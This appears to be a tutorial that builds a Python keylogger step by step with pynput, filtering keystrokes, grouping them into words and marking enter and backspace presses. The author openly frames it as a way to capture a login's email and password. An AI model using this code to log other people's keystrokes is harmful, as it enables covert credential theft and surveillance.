









## Modify `on_press()`

The provided on_press() function is a great start. However, I don't want to track **all** key presses as many of the keys don't really matter to me, like the function keys, ctrl, alt, and d-pad.

I'm interested in the following data:

- typed words (`alphanumeric`)
- typed numbers (`alphanumeric`)
- space bar (special: `Key.space`)
- tab (special: `Key.tab`)
- enter (special: `Key.enter`)
- backspace (special: `Key.backspace`)
- delete (special: `Key.delete`)

## Print only `alphanumeric`

First up are some changes to the `try` & `except` blocks:

```python
try:
    print(key.char)
except AttributeError:
    pass
```

I don't care about the additional text when a key is pressed, I simply want the key printed out.

In a similar vein I don't want to see any special key presses right now, even though I have some plans for them in the future.

### Validation



That's better.

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/22cfde300d22e8f4eba892f7d0252424b4fd42f5/pylogger/main.py)

## Chunk Input

I don't like that the letter is displayed as soon as it is pressed, I'd rather it be saved and then for it all to be displayed (eventually logged) all at once.

To make things easy let's create a global list named `log`.

```python
from time import sleep
from pynput import keyboard

log = []

def on_press(key):
```

Let's then update that log in the on_press function:

```python
def on_press(key):
    try:
        log.append(key.char)
    except AttributeError:
        pass
```

Finally let's print out the contents of the log after the time expires:

```python
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=on_press)
    listener.start()
    sleep(10)
    listener.stop()
    print(log)
```

Let's try it out.

### Validation



Much smoother.

## Special Key Behaviors

Having a list of letters typed in order is nice, but I want to ultimately group meaningful strings of characters together into words. A logical place to break is on space bar presses and tab presses.

Space naturally shows up between words, and tab is used often between data entry while moving between form options.

I will eventually `join()` the list together on spaces, but I want both the space bar and tab presses to result in an empty string space `" "`. I think a dictionary look up would be a great tool to handle all of the special key presses I care about.

## `Key.space` as `" "`

I will have to replace the current `pass` statement, but first the dictionary:

```python
def on_press(key):
    special_lookup = {
        "Key.space": " "
    }
    try:
        log.append(key.char)
    except:
        if str(key) in special_lookup.keys():
            log.append(special_lookup[str(key)])
```

That might do it.

### Validation



The output is kind of separated now.

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/eb5f3dc94106ba61903bc976f4d59b270ae97855/pylogger/main.py)

## `Key.tab` as `" "`

Tab's should be real easy thanks to our dictionary. Just a new entry in `special_lookup`:

```python
special_lookup = {
    "Key.space": " ",
    "Key.tab": " "
}
```

### Validation

I typed: `tdo tabs space\t\t\ti\tk\t`



And they work.

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/2c6e9c008048c3d850f12d3b099aa7e27583267d/pylogger/main.py)

## Join List Items on Space

Let's join this text together:

```python
print("".join(log))
```

### Validation



That's very nice.

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/af511b3897c71b326fab3ed5e9e7ae4be0575f51/pylogger/main.py)

## `Key.enter` as `"<ENTER>"`

So after someone has typed some data into a form, I'm interested on when they have hit the enter button. Let's make enter presses really stand out:

```python
special_lookup = {
    "Key.space": " ",
    "Key.tab": " ",
    "Key.enter": "<ENTER>"
}
```

### Validation



Sneaky.

Someone:

1. typed `gmail.com`
2. hit enter
3. typed an email address: `paul@paulmatthews.dev`
4. hit space or tab
5. typed a possible password: `mypassword`
6. hit enter

Did someone login to an account and we captured their credentials? Possibly.

{}
Right now there is ambiguity between space bar and tab presses. It may be in our interest to distinguish between the two. I'm not going to do that, because I don't care.
{}

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/tree/48c020903f962070d01ec6693accfd544bcbb3d1)

## `Key.delete` as `"<DELETE>"`

Occasionally people make mistakes when typing. Why don't we record deletion's in a similar manner to enter presses:

```python
special_lookup: {
    "Key.space": " ",
    "Key.tab": " ",
    "Key.enter": "<ENTER>",
    "Key.delete": "<DELETE>"
}
```

### Validation



We are tracking delete presses now.

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/237450e9735515691db474f61fb0b1b1fecaa873/pylogger/main.py)

## `Key.backspace` Removes Last List Item

I could do something similar to delete, or enter, but I usually hit backspace when I've made a typing mistake and I want to get rid of the last key I typed. So let's just have backspace remove the last list item:

```python
except AttributeError:
    if str(key) == "Key.backspace":
        log.pop()
    elif str(key) in special_lookup.keys():
        log.append(special_lookup[str(key)])
```

### Validation

I'll type something wrong: `paulb` hit backspace and see if the output is: `paul`.



Pretty cool.

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/tree/237450e9735515691db474f61fb0b1b1fecaa873)

## Handle Potential IndexError

I occasionally hold backspace to clear all the text I've typed and certainly register more backspace presses than will exist in the log list.

Let's modify the code to catch the error:

```python
try:
    log.pop()
except IndexError:
    log.append("<BACKSPACE>")
```

### Validation



Even though I put in a ton of backspaces with no content, it simply results in one `<BACKSPACE>` string indicating more backspaces were provided than elements in the list.

### Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/a4687ed7b8b5ee11fe3d1cebed92620492213181/pylogger/main.py)